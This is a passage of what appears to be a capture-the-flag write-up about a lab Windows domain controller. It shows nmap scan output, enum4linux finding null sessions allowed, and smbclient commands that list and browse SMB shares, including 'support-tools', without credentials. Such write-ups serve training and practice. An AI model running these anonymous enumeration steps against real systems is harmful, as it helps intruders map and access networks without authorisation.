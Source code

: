 ```bash
49679/tcp open  msrpc         Microsoft Windows RPC
49754/tcp open  msrpc         Microsoft Windows RPC
53009/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-03T14:37:10
|_  start_date: N/A
```

## SMB Enumeration

The `enum4linux` tool shows null session are enabled:

```bash
enum4linux -A 10.10.11.174

[+] Server 10.10.11.174 allows sessions using username '', password ''
```

Performed NULL attack and enumerated shares:

```bash
smbclient -L //10.10.11.174 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share
```

Used `smbclient` to access `support-tools` share.

```bash
smbclient //10.10.11.174/support-tools -N

# Output
smb: \> dir
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 12:19:43 2022
```
